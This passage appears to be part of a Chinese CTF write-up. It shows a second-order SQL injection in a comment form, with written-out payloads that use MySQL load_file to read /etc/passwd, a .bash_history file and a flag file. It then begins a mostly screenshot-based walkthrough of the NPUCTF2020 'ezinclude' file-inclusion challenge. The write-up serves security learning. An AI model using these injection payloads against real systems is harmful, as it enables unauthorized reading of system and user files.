 留言查看的地方没有过滤就进行输出

构造category：`asd',content=database(),/*`
留言处content：`*/#`
此处井号只是单行注释，不影响下面
```sql
$sql = "insert into comment
            set category = 'asd',content=database(),/*',
                content = '*/#',
                bo_id = '$bo_id'";

```

读用户
`a',content=(select (load_file('/etc/passwd'))),/*`
![在这里插入图片描述](https://img-blog.csdnimg.cn/1df060098ed34271958b708e66506f2b.png)
读历史
`a',content=(select (load_file('/home/www/.bash_history'))),/*`
![在这里插入图片描述](https://img-blog.csdnimg.cn/98f89da45b15499f83a6b546659e2500.png)
读tmp目录下的.DS_Store文件
`a',content=(select (hex(load_file('/tmp/html/.DS_Store')))),/*`

读出16进制内容，解码发现有一个文件名
![在这里插入图片描述](https://img-blog.csdnimg.cn/b095b53158d94777910729e6d954d690.png)

再load一下
`	a',content=(select (hex(load_file('/tmp/html/flag_8946e1ff1ee3e40f.php')))),/*`

![在这里插入图片描述](https://img-blog.csdnimg.cn/2c88af3520e4454db0abd0a69d14683d.png)
oh我就说，读/vaw/www/html目录下的，tmp目录下的不能用

# [NPUCTF2020]ezinclude
![在这里插入图片描述](https://img-blog.csdnimg.cn/f522235716704204ae2852b5a94312dd.png)
抓包
![在这里插入图片描述](https://img-blog.csdnimg.cn/6795e39dfbe9421c85421a94ba6eee21.png)
get传user空，pass=hash
![在这里插入图片描述](https://img-blog.csdnimg.cn/3ab6632da5794a55bf92d4c102e341ab.png)
页面跳转，抓包有
![在这里插入图片描述](https://img-blog.csdnimg.cn/461fae363d424d3c9c6d2a4a9ed9bf2c.png)
抓包访问之，
![在这里插入图片描述](https://img-blog.csdnimg.cn/61d9e4ca93d44cba8c8f0853e831d041.png)
传参/etc/passwd有回显，尝试data伪协议发现被禁，有过滤

![在这里插入图片描述](https://img-blog.csdnimg.cn/47ddb32266d643b89f21cb7a0703725f.png)
查看flflflflag.php源码
![在这里插入图片描述](https://img-blog.csdnimg.cn/c5a9f700a2bd41679f82186a2bf6420b.png)

